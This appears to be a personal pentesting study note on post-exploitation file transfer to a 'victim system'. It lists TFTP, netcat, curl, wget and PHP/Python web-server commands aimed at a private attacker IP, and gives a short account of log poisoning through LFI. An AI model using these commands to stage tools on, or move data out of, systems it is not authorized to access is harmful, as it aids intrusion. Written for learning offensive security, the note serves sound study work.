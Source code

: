 ```yaml
---
description: >-
  I have a problem  with remembering information that is very specific. So I
  have created a list of file transfer methods. I have not made any distinction
  of either windows or Linux.
---
```


# File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* **Non-interactive Shells.**
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* **Interactive Shells.**
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.
* **Using Scripting languages.**
  * \(script\) like using VBscripts, a simple HTTP downloader using VBScript. On the server end we just need to serve file on our web server.
  * \(script\) like using Powershell, a simple HTTP downloader using powershell.
  * \(executable\) like using debug.exe to create a code a simple downloader. Compiling the code using debug.exe. Then running this executable to download the file to victim system.
* **Using logs method.**
  * Remember how all services running in victim system has a log file which tells us the timeline and the different activities that service has performed.
  * Similarly, if we have port open for that service, so the attacker could query the port. Similarly lets say the attacker queried port 80.
  * Then he needs to send some text which the server understands to get a valid response. 
  * But if user sends malicious code script. As it is an invalid request the script will not be executed, but still the complete script message is present in web server log files.
  * So if the website is vulnerable to LFI vulnerability, we could give path of web-server log files in this, and in this way our malicious code will be executed.

![Interactive Shell](../../.gitbook/assets/image%20%2885%29.png)

![Non-Interactive Shell](../../.gitbook/assets/image%20%2875%29.png)

## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP

{% tabs %}
{% tab title="Linux TFTP Server" %}
```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
{% endtab %}

{% tab title="Windows TFTP Client" %}
```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```
{% endtab %}
{% endtabs %}

## Using Netcat

It is a simple netcat file transfer command. The connection will not end after transfer, we need to manually close the listner connection.

{% tabs %}
{% tab title="Sender side" %}
```text
nc 172.18.39.103 5000 < file.txt
```
{% endtab %}

{% tab title="Receiver side" %}
```text
nc -lvp 5000 > file.txt
```
{% endtab %}
{% endtabs %}

## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.

{% tabs %}
{% tab title="python" %}
```text
python -m SimpleHTTPServer 8000
```
{% endtab %}

{% tab title="apache2" %}
```text
service apache2 start
cp file.txt /var/www/html/
```
{% endtab %}
{% endtabs %}

### Using curl

{% tabs %}
{% tab title="curl file transfer method" %}
```text
curl -O http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

### Using wget

{% tabs %}
{% tab title="wget file transfer method" %}
```text
wget http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

## Using PHP file server

{% tabs %}
{% tab title="Server side" %}
```text
php -S 0.0.0.0:80
```
{% endtab %}

{% tab title="Client side" %}
> You could use any file download method to download file.
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/image-13.png)

![](../../.gitbook/assets/image-39.png)

